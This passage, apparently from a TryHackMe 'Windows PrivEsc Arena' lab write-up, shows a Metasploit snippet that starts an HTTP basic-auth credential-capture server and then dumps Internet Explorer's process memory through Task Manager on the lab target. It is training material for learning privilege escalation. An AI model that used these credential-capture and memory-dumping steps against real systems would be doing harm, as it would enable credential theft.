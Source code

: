 ```console
use auxiliary/server/capture/http_basic
set uripath x
set SRVPORT 8888
run
```
{: .nolineno }

Then i explored on the windows target http://10.10.199.49:8888/x and got an error while connecting. So, i created a dump file from the internet explorer via the Taskmanager :

![Dump](/images/thm/windowsprivescarena/windowsprivescarena_26.png)
_Dump_

![Dumping process](/images/thm/windowsprivescarena/windowsprivescarena_27.png)
_Dumping process_
